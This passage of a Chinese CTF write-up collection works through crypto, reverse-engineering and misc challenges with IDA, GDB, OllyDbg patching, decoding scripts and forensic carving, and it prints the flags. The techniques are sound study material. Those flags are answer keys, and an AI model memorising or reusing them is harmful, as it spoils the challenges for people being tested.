        key = process(key, seed)

def str2num(s):
    return int(s.encode('hex'), 16)

src1 = 0xaf3fcc28377e7e983355096fd4f635856df82bbab61d2c50892d9ee5d913a07f
src2 = 0x630eb4dce274d29a16f86940f2f35253477665949170ed9e8c9e828794b5543c
src3 = 0xe913db07cbe4f433c7cdeaac549757d23651ebdccf69d7fbdfd5dc2829334d1b

fake_secret1 = "I_am_not_a_secret_so_you_know_me"
fake_secret2 = "feeddeadbeefcafefeeddeadbeefcafe"

k2 = src2 ^ str2num(fake_secret1)
k3 = src3 ^ str2num(fake_secret2)

kt = k3
for i in range(255):
    kt = process(kt, 0)

seed = kt ^ k2
print "SEED:", seed
assert process(k2, seed) == k3

kt = k2
for i in range(255):
    kt = process(kt, 0)

k1 = kt ^ seed
print "K1:", k1
assert process(k1, seed) == k2

m = k1 ^ src1
print hex(m)[2:-1].decode("hex")

# flag{t0_B3_r4ndoM_en0Ugh_1s_nec3s5arY}
```


### best_rsa

#### 考点：RSA


```
57878874529126638058266767507360289654977239968609134965579084199690896209288616654961193376065547969243413333847087238877048929853346189752818662464163707571396176156061407147721630652883894739158377842550851818675473867461462968464996666192250011240167014607119302846886388682999048387677026737450274721412660006914188004310692367892660134778548591730842643066517703894131960330283299037087930432526472178475615769093472776168940774467880768303833126881753031439687157521438761281202503402357965733985190611172160142770033940644232070249264281900617854770272075398734007022823084693040685704854245939751666152033
```


# reverse_逆向

## 新手练习区

### simple-unpack

IDA-64打开，**shift+F12**查找字符串就好了，可以直接看到flag


### insanity

一样的，先拿exeinfope查看，确定为32位

IDA打开，shift+F12，就看到了flag


### getit

拿exeinfope查看，确定为64位

IDA打开，shift+F12，看到了一些奇怪的东西，于是进入查看，反编译得到C语言代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // al@4
  int result; // eax@10
  __int64 v5; // rbx@10
  __int64 v6; // [sp+0h] [bp-40h]@0
  int i; // [sp+4h] [bp-3Ch]@7
  FILE *stream; // [sp+8h] [bp-38h]@7
  char filename[8]; // [sp+10h] [bp-30h]@7
  __int64 v10; // [sp+28h] [bp-18h]@1

  v10 = *MK_FP(__FS__, 40LL);
  LODWORD(v6) = 0;
  while ( v6 < strlen(s) )
  {
    if ( v6 & 1 )
      v3 = 1;
    else
      v3 = -1;
    *(&t + v6 + 10) = s[v6] + v3;
    LODWORD(v6) = v6 + 1;
  }
  strcpy(filename, "/tmp/flag.txt");
  stream = fopen(filename, "w");
  fprintf(stream, "%s\n", 6295840LL, v6);
  for ( i = 0; i < strlen(&t); ++i )
  {
    fseek(stream, p[i], 0);
    fputc(*(&t + p[i]), stream);
    fseek(stream, 0LL, 0);
    fprintf(stream, "%s\n", 6295840LL);
  }
  fclose(stream);
  remove(filename);
  result = 0;
  v5 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}
```

查看其中的参数

```c
.data:00000000006010A0                 public s
.data:00000000006010A0 ; char s[]
.data:00000000006010A0 s               db 'c61b68366edeb7bdce3c6820314b7498',0
.data:00000000006010A0                                         ; DATA XREF: main+25o
.data:00000000006010A0                                         ; main+3Fr
.data:00000000006010C1                 align 20h
.data:00000000006010E0                 public t
.data:00000000006010E0 ; char t
.data:00000000006010E0 t               db 53h                  ; DATA XREF: main+65w
.data:00000000006010E0                                         ; main+C9o ...
.data:00000000006010E1 aHarifctf?????? db 'harifCTF{????????????????????????????????}',0
.data:000000000060110C                 align 20h
.data:0000000000601120                 public u
.data:0000000000601120 u               db '*******************************************',0
.data:0000000000601120                                         ; DATA XREF: main+A5o
.data:0000000000601120                                         ; main+13Fo
.data:000000000060114C                 align 20h
.data:0000000000601160                 public p
.data:0000000000601160 ; int p[]
.data:0000000000601160 p               dd 1Eh                  ; DATA XREF: main+E1r
.data:0000000000601160                                         ; main+104r
```

我们应该看到 **char s**和**char t**，这是我们解题的关键

进行代码审计，我们可以知道，代码整体上可以分为3个部分，

> 1~11 变量定义初始化
>
> 12~20 定义flag值
>
> 20~34 flag值写入文件

因此我们只需要将第二部分复现，输出flag即可，下面是python脚本

```python
s = 'c61b68366edeb7bdce3c6820314b7498'
t = 'harifCTF{????????????????????????????????}'

flag_list = []
for i in t:
    flag_list.append(i)
v6 = 0
while v6 < len(s):
    if v6 & 1:
        v3 = 1
    else:
        v3 = -1
    flag_list[v6 + 10] = str(chr(ord(s[v6]) + v3))
    v6 = v6 + 1
    
flag_list.append('}')
flag = ''
for i in flag_list:
    flag += i
print(flag)			# harifCTF{?b70c59275fcfa8aebf2d5911223c6589}
```


### python-trade

我们可以得到应该pyc文件，直接进行pyc文件的反编译

这时需要用到一个python库：**uncompyle6**

> 用法：pyc文件同级目录下，cmd ：uncompyle6 -o pcat.py pcat.pyc

我们就可以得到py文件

```python
import base64

def encode(message):
    s = ''
    for i in message:
        x = ord(i) ^ 32
        x = x + 16
        s += chr(x)

    return base64.b64encode(s)

correct = 'XlNkVmtUI1MgXWBZXCFeKY+AaXNt'
flag = ''
print('Input flag:')
flag = raw_input()
if encode(flag) == correct:
    print('correct')
else:
    print('wrong')
```

这个算法比较简单，我们写一个解码脚本

```python
a = 'XlNkVmtUI1MgXWBZXCFeKY+AaXNt'
b = base64.b64decode(a)

flag = ''
for i in b:
    i = i - 16
    i = i ^ 32
    flag += chr(i)

print(flag)		# nctf{d3c0mpil1n9_PyC}
```


### re1

我们有两种方法进行解题

#### 第一种：

IDA进入查找字符串，找到主函数，发现了flag数据段，选中R后就是flag了


由于在汇编里面存储字符是**小端存储**，所以我们只需要将这两段字符串反过来写

```
DUTCTF{We1c0met0DUCTF}
```

其实还有一种更方便的：

查阅资料了解到，反编译的结果不是一定正确的，IDA采用**递归下降法进行反编译**，它的优点在于很少会在反编译时把数据当作代码来处理，不过这次IDA很明显把flag当成代码，进行了反编译，因此在string界面无法找到flag

解决方法是在IDA打开文件时选择**binary file**,在此模式下IDA不会进行反编译，此时再打开strings界面就可发现flag


再查找字符串就出来了


### game

本题有两种方式，都还是比较简单的方法

**第一种，完成游戏**

按照游戏规则完成游戏，通关后就有flag了

很简单，依次输入1，2，3，4，5，6，7，8就可以解开游戏


**第二种，IDA分析**

exeinfope分析无壳，我们直接拿IDA打开

首先我们先找到**main()函数**

```c
void main_0()
{
  signed int i; // [esp+DCh] [ebp-20h]
  int v1; // [esp+F4h] [ebp-8h]

  sub_45A7BE(&unk_50B110);
  sub_45A7BE(&unk_50B158);
  sub_45A7BE(&unk_50B1A0);
  sub_45A7BE(&unk_50B1E8);
  sub_45A7BE(&unk_50B230);
  sub_45A7BE(&unk_50B278);
  sub_45A7BE(&unk_50B2C0);
  sub_45A7BE(&unk_50B308);
  sub_45A7BE("二                                                     |\n");
  sub_45A7BE("|              by 0x61                                 |\n");
  sub_45A7BE("|                                                      |\n");
  sub_45A7BE("|------------------------------------------------------|\n");
  sub_45A7BE(
    "Play a game\n"
    "The n is the serial number of the lamp,and m is the state of the lamp\n"
    "If m of the Nth lamp is 1,it's on ,if not it's off\n"
    "At first all the lights were closed\n");
  sub_45A7BE("Now you can input n to change its state\n");
  sub_45A7BE(
    "But you should pay attention to one thing,if you change the state of the Nth lamp,the state of (N-1)th and (N+1)th w"
    "ill be changed too\n");
  sub_45A7BE("When all lamps are on,flag will appear\n");
  sub_45A7BE("Now,input n \n");
  while ( 1 )
  {
    while ( 1 )
    {
      sub_45A7BE("input n,n(1-8)\n");
      sub_459418();
      sub_45A7BE("n=");
      sub_4596D4("%d", &v1);
      sub_45A7BE("\n");
      if ( v1 >= 0 && v1 <= 8 )
        break;
      sub_45A7BE("sorry,n error,try again\n");
    }
    if ( v1 )
    {
      sub_4576D6(v1 - 1);
    }
    else
    {
      for ( i = 0; i < 8; ++i )
      {
        if ( (unsigned int)i >= 9 )
          j____report_rangecheckfailure();
        byte_532E28[i] = 0;
      }
    }
    j__system("CLS");
    sub_458054();
    if ( byte_532E28[0] == 1
      && byte_532E28[1] == 1
      && byte_532E28[2] == 1
      && byte_532E28[3] == 1
      && byte_532E28[4] == 1
      && byte_532E28[5] == 1
      && byte_532E28[6] == 1
      && byte_532E28[7] == 1 )
    {
      sub_457AB4();
    }
  }
}
```

经过分析后，我们可以知道，当所有电路为1时，及电路都闭合时，会跳转到——**sub_457AB4()**函数

```c
int sub_457AB4(void)
{
  return sub_45E940();
}
```

继续跳转到**sub_45E940()**

```c
sub_45A7BE("done!!! the flag is ");
  v59 = 18;
  v60 = 64;
  v61 = 98;
  v62 = 5;
  v63 = 2;
  v64 = 4;
  v65 = 6;
  v66 = 3;
  v67 = 6;
  v68 = 48;
  v69 = 49;
  v70 = 65;
  v71 = 32;
  v72 = 12;
  v73 = 48;
  v74 = 65;
  v75 = 31;
  v76 = 78;
  v77 = 62;
  v78 = 32;
  v79 = 49;
  v80 = 32;
  v81 = 1;
  v82 = 57;
  v83 = 96;
  v84 = 3;
  v85 = 21;
  v86 = 9;
  v87 = 4;
  v88 = 62;
  v89 = 3;
  v90 = 5;
  v91 = 4;
  v92 = 1;
  v93 = 2;
  v94 = 3;
  v95 = 44;
  v96 = 65;
  v97 = 78;
  v98 = 32;
  v99 = 16;
  v100 = 97;
  v101 = 54;
  v102 = 16;
  v103 = 44;
  v104 = 52;
  v105 = 32;
  v106 = 64;
  v107 = 89;
  v108 = 45;
  v109 = 32;
  v110 = 65;
  v111 = 15;
  v112 = 34;
  v113 = 18;
  v114 = 16;
  v115 = 0;
  v2 = 123;
  v3 = 32;
  v4 = 18;
  v5 = 98;
  v6 = 119;
  v7 = 108;
  v8 = 65;
  v9 = 41;
  v10 = 124;
  v11 = 80;
  v12 = 125;
  v13 = 38;
  v14 = 124;
  v15 = 111;
  v16 = 74;
  v17 = 49;
  v18 = 83;
  v19 = 108;
  v20 = 94;
  v21 = 108;
  v22 = 84;
  v23 = 6;
  v24 = 96;
  v25 = 83;
  v26 = 44;
  v27 = 121;
  v28 = 104;
  v29 = 110;
  v30 = 32;
  v31 = 95;
  v32 = 117;
  v33 = 101;
  v34 = 99;
  v35 = 123;
  v36 = 127;
  v37 = 119;
  v38 = 96;
  v39 = 48;
  v40 = 107;
  v41 = 71;
  v42 = 92;
  v43 = 29;
  v44 = 81;
  v45 = 107;
  v46 = 90;
  v47 = 85;
  v48 = 64;
  v49 = 12;
  v50 = 43;
  v51 = 76;
  v52 = 86;
  v53 = 13;
  v54 = 114;
  v55 = 1;
  v56 = 117;
  v57 = 126;
  v58 = 0;
  for ( i = 0; i < 56; ++i )
  {
    *(&v2 + i) ^= *(&v59 + i);
    *(&v2 + i) ^= 0x13u;
  }
  return sub_45A7BE("%s\n");
}
```

很明显了，这里创建了两个长度为57的字符串，并进行运算，那我们写个脚本：

```python
a = [18, 64, 98, 5, 2, 4, 6, 3, 6, 48, 49, 65, 32, 12, 48, 65, 31, 78, 62, 32, 49, 32, 1, 57, 96, 3, 21, 9, 4, 62, 3, 5,
     4, 1, 2, 3, 44, 65, 78, 32, 16, 97, 54, 16, 44, 52, 32, 64, 89, 45, 32, 65, 15, 34, 18, 16, 0]
b = [123, 32, 18, 98, 119, 108, 65, 41, 124, 80, 125, 38, 124, 111, 74, 49, 83, 108, 94, 108, 84, 6, 96, 83, 44, 121,
     104, 110, 32, 95, 117, 101, 99, 123, 127, 119, 96, 48, 107, 71, 92, 29, 81, 107, 90, 85, 64, 12, 43, 76, 86, 13,
     114, 1, 117, 126, 0]
i = 0
c = ''
while (i < 56):
    a[i] ^= b[i]
    a[i] ^= 19
    c = c + chr(a[i])
    i = i + 1
print(c)		# zsctf{T9is_tOpic_1s_v5ry_int7resting_b6t_others_are_n0t}
```


### Hello, CTF

惯例看有没有加壳，发现没有直接IDA打开，找到main()函数

进行代码审计

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // ebx
  char v4; // al
  int result; // eax
  int v6; // [esp+0h] [ebp-70h]
  int v7; // [esp+0h] [ebp-70h]
  char v8; // [esp+12h] [ebp-5Eh]
  char v9[20]; // [esp+14h] [ebp-5Ch]
  char v10; // [esp+28h] [ebp-48h]
  __int16 v11; // [esp+48h] [ebp-28h]
  char v12; // [esp+4Ah] [ebp-26h]
  char v13; // [esp+4Ch] [ebp-24h]

  strcpy(&v13, "437261636b4d654a757374466f7246756e");//把字符串"437261636b4d654a757374466f7246756e"复制到v13
  while ( 1 )
  {
    memset(&v10, 0, 0x20u);
    v11 = 0;
    v12 = 0;
    sub_40134B(aPleaseInputYou, v6);//这里调用函数sub_40134B,输出aPleaseInputYou里的字符："please input your serial:"
    scanf(aS, v9);//获取输入字符，给v9
    if ( strlen(v9) > 0x11 )
      break;//v9长度大于17就退掉
    v3 = 0;//设置v3为计数器
    do
    {
      v4 = v9[v3];
      if ( !v4 )
        break;//v4为0x00时退掉
      sprintf(&v8, asc_408044, v4);//asc_408044为"%x"    sprintf(&v8,"%x",v4)把v4的值的16进制发到v8
      strcat(&v10, &v8);//连接字符串v10与v8并把得到的字符串赋值给v10
      ++v3;//计数器增加
    }
    while ( v3 < 17 );
    if ( !strcmp(&v10, &v13) )
      sub_40134B(aSuccess, v7);//strcmp(&v10, &v13) 在v10的字符串与v13的相等时返回0
    else
      sub_40134B(aWrong, v7);
  }
  sub_40134B(aWrong, v7);
  result = stru_408090._cnt-- - 1;
  if ( stru_408090._cnt < 0 )
    return _filbuf(&stru_408090);
  ++stru_408090._ptr;
  return result;
}
```

所以说正确的serial就是"437261636b4d654a757374466f7246756e"转化为字符串

```
CrackMeJustForFun
```


### open-source

直接给了我们源代码

```C
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    if (argc != 4) {
    	printf("what?\n");
    	exit(1);
    }

    unsigned int first = atoi(argv[1]);
    if (first != 0xcafe) {
    	printf("you are wrong, sorry.\n");
    	exit(2);
    }

    unsigned int second = atoi(argv[2]);
    if (second % 5 == 3 || second % 17 != 8) {
    	printf("ha, you won't get it!\n");
    	exit(3);
    }

    if (strcmp("h4cky0u", argv[3])) {
    	printf("so close, dude!\n");
    	exit(4);
    }

    printf("Brr wrrr grr\n");

    unsigned int hash = first * 31337 + (second % 17) * 11 + strlen(argv[3]) - 1615810207;

    printf("Get your key: ");
    printf("%x\n", hash);
    return 0;
}
```


就三个东西，一个一个看

```c
if (first != 0xcafe) {
	printf("you are wrong, sorry.\n");
	exit(2);
}
```

不等于0xcafe就退出，那**first=0xcafe**

```c
if (second % 5 == 3 || second % 17 != 8) {
	printf("ha, you won't get it!\n");
	exit(3);
}
```

满足if条件就退出，比如25，因此**second = 25**

```c
if (strcmp("h4cky0u", argv[3])) {
	printf("so close, dude!\n");
	exit(4);
}
```

相等strcmp返回0，退出if条件，那**argv[3]=“h4cky0u”**

直接写个c就好了

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {

    int first = 0xcafe;
    int second = 25;
    argv[3] = "h4cky0u";

    unsigned int hash = first * 31337 + (second % 17) * 11 + strlen(argv[3]) - 1615810207;

    printf("%x\n", hash);
    return 0;
}
// c0ffee
```


### logmein

IDA-64打开，查找字符串，发现welcome。。。。。，于是进入函数，伪代码后为

```c
v6 = 0;
strcpy(v5, ":\"AL_RT^L*.?+6/46");
v4 = 'ebmarah';
v3 = 7;
printf("Welcome to the RC3 secure password guesser.\n");
printf("To continue, you must enter the correct password.\n");
printf("Enter your guess: ");
__isoc99_scanf("%32s", s);
v0 = strlen(s);
if ( v0 < strlen(v5) )
	sub_4007C0(v5);
for ( i = 0; i < strlen(s); ++i )
{
    if ( i >= strlen(v5) )
    ((void (*)(void))sub_4007C0)();
    if ( s[i] != (char)(*((_BYTE *)&v4 + i % v3) ^ v5[i]) )
    ((void (*)(void))sub_4007C0)();
}
sub_4007F0();
```

经过分析，可以得出：输入的字符要等于经过处理的v4和v5的异或。v5很明显，但是v4是怎么回事呢，新手没有遇到过，所以上网查看资料，LL是长长整型，v4要转换为16进制然后在转换为字符串，而且字符是小端序，所以把得到的字符翻转然后和v5的每一位进行异或。贴出脚本：

```python
a = 'harambe'
b = ':\"AL_RT^L*.?+6/46'
print(b)
tmp = ''
for i in range(len(b)):
    c = ord(a[i % 7]) ^ ord(b[i])
    tmp += chr(c)
    print(tmp)
```


### no-strings-attached

#### 考点：GDB调试

惯例看有没有加壳，发现没有直接IDA打开，找到main()函数


查看过后，这个函数有藏东西，这是一个解密函数，我们再进入


进入解密的函数，我们使用**GDB动态调试**一下，当然直接分析decrypt也很容易得出flag，但在此我们学习gdb-peda的使用


**调试过程：**


> gdb ./22335				gdb打开文件进行调试
>
> ​							
>
> b decrypt					**b**：下断点，我们在decrypt这里下个断点
>
> r									**r**：就是让程序跑起来
>
> n								   **n**：就是运行到下一步
>
> 
>
> x/sw $eax					**x**：查看内存的值，这里我们查看eax寄存器的值

我们看到这里，**decrypt函数**调用了eax这个寄存器，所以我们可以去看看内容，最后就看到了flag


### csaw2013reversing2

惯例先查壳，没有我们就用IDA打开


> 1.看到第16行代码，输出flag，lpMem中保存着flag值。
>
> 2.第8行代码，为lpMen申请内存空间。
>
> 3.第9行代码，为lpMem赋值。其中&unk_409B10的值为：
>
> 
>
> 从第13行代码我们知道，第10~15行代码在对lpMem操作，又因为 ExitProcess(0xFFFFFFFF);所以猜测，这段if结构没有执行（执行的话，就会直接退出，不会有跳出MessageBox对话框）


OD载入搜索字符串，断电到弹窗Flag附近，查看这一段程序

经过审计发现，程序跳过了**001C1000函数（001C109E）**，我们可以调用这个函数**001C1000函数（001C109E）**


双击进行汇编，将`je short 0453d212.001C10B9` ---> `je short 0453d212.001C109B`，跳到**001C1000函数（001C109E）**的上方

弹窗函数在**001C10BB**处，因此我们将**001C1000函数（001C109E）**最后的跳转地址改为弹窗函数上方**001C10B9**，`jmp short 0453d212.001C10EF` ---> `jmp short 0453d212.001C10B9`

F9运行就好了


### maze

惯例先查壳，IDA64位打开后找到main函数

```c
 1 __int64 __fastcall main(__int64 a1, char **a2, char **a3)
 2 {
 3   signed __int64 v4; // rbx
 4   signed int v5; // eax
 5   char v6; // bp
 6   char v7; // al
 7   const char *v8; // rdi
 8   __int64 v10; // [rsp+0h] [rbp-28h]
 9 
10   v10 = 0LL;
11   puts("Input flag:");
12   scanf("%s", &s1, 0LL);
13   
14   
15   if ( strlen(&s1) != 24 || strncmp(&s1, "nctf{", 5uLL) || *(&byte_6010BF + 24) != 125 )    //len(s1) = 24, s1开头为'nctf', 
16   {
17 LABEL_22:
18     puts("Wrong flag!");
19     exit(-1);
20   }
21 v4 = 5LL;                                                                        //flag总长24，已知5个长度，v4表示输入的表示方向的字符数。
22   if ( strlen(&s1) - 1 > 5 )
23   {
24     while ( 1 )
25     {
26       v5 = *(&s1 + v4);                                                            //v5 = s1[5]
27       v6 = 0;
28       if ( v5 > 'N' )//v5 > 'N'
29       {
30         v5 = (unsigned __int8)v5;
31         if ( (unsigned __int8)v5 == 'O' )                                                //1. 当v5 == 'O'的情况，表示左移
32         {
33           v7 = sub_400650((char *)&v10 + 4, v3);                                        //v10--，表示位置的列数-1，v7判断是否越界(越界返回：FALSE, 未越界返回:TRUE)
34           goto LABEL_14;
35         }
36         if ( v5 == 'o' )                                                                //2. 当v5 == 'o'的情况，表示右移
37         {
38           v7 = sub_400660((char *)&v10 + 4, v3);                                        //v10++，表示位置的列数+1,
39           goto LABEL_14;
40         }
41       }
42       
43       else//v5 < 'N'
44       {
45         v5 = (unsigned __int8)v5;
46         if ( (unsigned __int8)v5 == '.')                                                //3. v5 == '.'的情况, 表示上移
47         {
48           v7 = sub_400670(&v10, v3);                                                //v10--，表示位置的行数-1,
49           goto LABEL_14;
50         }
51         if ( v5 == '0' )                                                                //4. v5=='0'的情况，表示下移
52         {
53           v7 = sub_400680(&v10, v3);                                                //v10++, 表示位置的行数+1
54 LABEL_14:
55           v6 = v7;                                                                    //赋值给v6,下面判断走迷宫时，是否越界
56           goto LABEL_15;
57         }
58       }
59       
60       
61 LABEL_15:
62       if ( !(unsigned __int8)sub_400690((__int64)asc_601060, SHIDWORD(v10), v10) )//判断该位置的字符是' '， '#'或者'*'中的哪种，如果是'*'则，返回再次寻路
63         goto LABEL_22;
64       if ( ++v4 >= strlen(&s1) - 1 )                                                    //因为最后以'}'结尾，所以strlen(s1) - 1。我们需要找到中间18个字符
65       {
66         if ( v6 )//判断是否越界(未越界退出循环)
67           break;
68 LABEL_20:
69         v8 = "Wrong flag!";
70         goto LABEL_21;
71       }
72     }
73   }
74   if ( asc_601060[8 * (signed int)v10 + SHIDWORD(v10)] != 35 )//判断是否到达'#'处，没有到达，继续返回循环，进行移动
75     goto LABEL_20;
76   v8 = "Congratulations!";
77 LABEL_21:
78   puts(v8);
79   return 0LL;
80 }
```

同时，我们在字符串里看到了

```
.data:0000000000601060 asc_601060      db '  *******   *  **** * ****  * ***  *#  *** *** ***     *********',0
```

通过分析，可以判断出这是一个迷宫题，地图如图所示是一个**8x8的地图**，迷宫的最后路径就是我们的flag

```
  ******
*   *  *
*** * **
**  * **
*  *#  *
** *** *
**     *
********

o0******
*oo0*00*
***0*0**
**0O*0**
*00*#OO*
**0***.*
**oooo.*
********
```

> 'O'的情况，表示左移
>
> 'o'的情况，表示右移
>
> '.'的情况, 表示上移
>
> '0'的情况，表示下移
>
> 起点在（1,1），终点在#

```
nctf{o0oo00O000oooo..OO}
```


## 高手进阶区

### IgniteMe

先查壳，32位，直接用IDA打开程序

找到main函数，发现有一个函数专门用来判断输入值，ture返回Congratulations!，这里通过sub_4011C0(v6)传入输入的flag来判断真假，那我们就打开函数


进入函数后，看到这里i是从4开始即flag的第四位开始，对flag的操作分为了两部分：

1. 第26行代码~第32行代码，将flag中的大写字母转小写，小写字母转大写。
2. 第33行代码对每位字符进行异或操作。


我们从后往前进行推理，先获取到**byte_4420B0数组**


```
0D 13 17 11 02 01 20 1D  0C 02 19 2F 17 2B 24 1F
1E 16 09 0F 15 27 13 26  0A 2F 1E 1A 2D 0C 22 04
```

再看看另一个和它进行异或的**sub_4013C0函数**，这里又与0x55异或再 +72


总结一下，**v8数组**先进行大小写转换，之后**v8数组**与**0x55**进行**异或+72**，再和**val1（byte_4420B0数组）**进行异或，最后得到**v4数组**

我们进行逆向操作就可以得到flag了，写个脚本

```python
v4 = 'GONDPHyGjPEKruv{{pj]X@rF'
val1 = [0x0D,0x13,0x17,0x11,0x02,0x01,0x20,0x1D,0x0C,0x02,0x19,0x2F,0x17,0x2B,
        0x24,0x1F,0x1E,0x16,0x09,0x0F,0x15,0x27,0x13,0x26,0x0A,0x2F,0x1E,0x1A,
        0x2D,0x0C,0x22,0x04]

v8 = ''
flag = ''

for i in range(len(v4)):
    v8 += chr(((ord(v4[i]) ^ val1[i]) - 72) ^ 0x55)

for j in range(len(v8)):
    if ord(v8[j]) >= 97 and ord(v8[j]) <= 122:
        flag += chr(ord(v8[j]) - 32)
    elif ord(v8[j]) >= 65 and ord(v8[j]) <= 90:
        flag += chr(ord(v8[j]) + 32)
    else:
        flag += v8[j]

print('EIS{' + flag + '}')
// EIS{wadx_tdgk_aihc_ihkn_pjlm}
```


### Mysterious

找了一会就找到了这个主函数，我们伪代码看一下，这里就是flag了


这里flag最后是组装的起来的，

```
{ + v5变量 + _ + Buff3r_0v3rf|0w + }
```

所以，求出V5就可以得到flag了，V5之前又经过一个**_itoa**函数，我们进入函数看看


其实这个_itoa函数的作用是将数字和字符串之间的转换，所以我们的V5就是123，只不过是str(V10)

```
我们最后的flag：flag{123_Buff3r_0v3rf|0w}
```


# misc_杂项

## 新手练习区

### pdf

有三种方法

- 将PDF转换成word
- 用PDF编辑器
- 利用linux自带工具pdftotext，【pdftotext 文件名 转换后的文件名】


### give_you_flag

题目给了一个gif，我们一帧一帧的检查，发现在50帧处有一个假二维码


我们观察就可以发现，二维码需要定位的四个角的小方格缺失

这时候就要我们进行处理，补全信息


### 坚持60秒

一个java的小游戏，用 **jd-gui** 打开，直接搜索：flag，得到，结果需要 base64 解码


### gif

这道题思路不难，就是要有处理信息的能力

题目给了一个文件夹，分布黑白两种颜色的图片，我们需要联想到**二进制**，尝试将其转换为二进制，然后转换为字符串的形式

这里我们用python来帮我们进行处理

```python
# 这两句用于为下面的图片识别做个实例，定义什么图片是白色，什么是黑色
white = open("./gif/0.jpg", "rb").read()
black = open("./gif/1.jpg", "rb").read()

flag_dic = ""
# 循环语句用于识别当前路径下，gif文件夹的104张图片的颜色，并给白色附值为0，黑色赋值为1
for i in range(104):
    with open("./gif/%d.jpg" % i, "rb") as f:
        if f.read() == white:
            flag_dic += "0"
        else:
            flag_dic += "1"

flag = ""
# 将二进制转化为字符串
for i in range(int(len(flag_dic) / 8)):
    flag += chr(int(flag_dic[i * 8:(i + 1) * 8], 2))

print(flag)
```


### 掀桌子

比较考验我们的编程，解法不难每两个一组，将16进制转换为10进制，减去128以后输出 ascii

```python
string = "c8e9aca0c6f2e5f3e8c4efe7a1a0d4e8e5a0e6ece1e7a0e9f3baa0e8eafae3f9e4eafae2eae4e3eaebfaebe3f5e7e9f3e4e3e8eaf9eaf3e2e4e6f2"
flag = ''
for i in range(0,len(string), 2):
    s = "0x" + string[i] + string[i+1]
    flag += chr(int(s, 16) - 128)
print(flag)
```


### 如来十三掌

做这道题我们需要知道有一个编码，[**佛论禅编码**](http://www.keyfc.net/bbs/tools/tudoucode.aspx)

补全**佛曰：xxxxxx**，解密得到：

```
MzkuM3gvMUAwnzuvn3cgozMlMTuvqzAenJchMUAeqzWenzEmLJW9
```

其实最后试出来恍然大悟题目的名字，这道题需要我们进行一遍**Rot-13**，然后 **Base64**


### stegano

拿到一个pdf，打开后复制文件内容到记事本，发现文件头部有反复的AB

猜测可能为

- 二进制（但是不都是4位一组的，那就不是二进制了），
- 摩尔斯代码
- 培根加密（但是培根密码是5个一组）

所以我们试试摩尔斯代码，我们将**A替换为.，B替换为-**

```python
a = "BABA BBB BA BBA ABA AB B AAB ABAA AB B AA BBB BA AAA BBAABB AABA ABAA AB BBA BBBAAA ABBBB BA AAAB ABBBB AAAAA ABBBB BAAA ABAA AAABB BB AAABB AAAAA AAAAA AAAAB BBA AAABB"
a = a.split(' ')

flag = ''
for i in a:
    for n in i:
        flag += n.replace('A', '.').replace('B', '-')
    flag += ' '

print(flag)
```

放入解码工具就好了，[摩尔斯解码](http://moersima.00cha.net/)


### SimpleRAR

#### 考点：RAR文件块格式

用winhex打开后……发现RAR里面居然是有一个图片的！


可是为什么解压不出来呢，应该是这个压缩包坏掉了

可以看到从**here**后面开始就应该是**secret.png**的部分了，百度了一下rar每个块的开头

我们要的是文件块而不是子块，于是更改7A为74，成功解压，出现一个图片（在A8 3C 74 20这里）

发现是一张空白的图片，继续用winhex打开，发现是GIF格式的，修改后缀


拿PS打开这张GIF图，发现有两个图层，（也可以直接拿StegSolve打开，用分离GIF就可以看到两帧图片）

单独再拿去查看图层，就会发现两张图片分别有一个二维码的一半，合并后**补全定位用的小方格，**扫就完了！


### base64stego

这道题也很有意思，解压附件发现被加密

- 用winHex打开，点击：查找十六进制数值--504B--列出搜索结果--确定，**发现zip为伪加密**，将压缩源文件目录区09 00改为00 00并保存

- 或者用ZipCenOp.jar

  ```
  java -jar ZipCenOp.jar r flag.zip#把flag.zip放到该目录下
  ```

发现文件像是被Base64加过密的，但是太长了，**flag的base64编码为ZmxhZw==**，尝试在stego.txt中搜索，未发现。

这道题脚本比较难写，就借用大神们的解法

> 因为这里是找出base64隐写进去的内容，不是base64编码解出来的内容！！

```python
# -*- coding: cp936 -*-
import base64
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('stego.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = str(line, "utf-8").strip("\n")
        rowb64 =  str(base64.b64encode(base64.b64decode(stegb64)), "utf-8").strip("\n")
        offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        equalnum = stegb64.count('=') #no equalnum no offset
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
            print(''.join([chr(int(bin_str[i:i + 8], 2)) for i in range(0, len(bin_str), 8)])) #8 位一组
```

> flag{Base_sixty_four_point_five}


### ext3

下载文件后，我们先拿WinHex打开看一看，按Ctrl+F搜索flag字符串


看到flag，其中一个我们发现了路径

我们把文件拉到linux里挂载一下

```
mount linux /mnt/sda7	#路径自填就好了，要在root用户下
```

进入目标目录后看到flag.txt文件

```
ZmxhZ3tzYWpiY2lienNrampjbmJoc2J2Y2pianN6Y3N6Ymt6an0=
```

base64后就是flag了


### 功夫再高也怕菜刀

首先给的是一个pcapng文件，我们用binwalk进行分离

分离时看到有一个压缩包，打开需要一个密码


接下来上wireshark，我们打开文件


一定要把搜索栏按照我标的调，尤其是第一个，它默认不是分组字节流，在这种情况下你搜索flag.txt，结果是搜索不到东西的。会有好几个符合条件的字节流，我看网上wp出奇的一致，都选在了1150这里，我都试了一下，发现结果都是正确的。在1150处右键跟踪TCP流：

从刚开始的FFD8FF到最后的FFD9，注意是最后一个FFD9，因为不止一个FFD9


复制后进入WinHex，记得选择16进制复制

图片保存修改后缀为**.jpg**，打开就是zip密码了


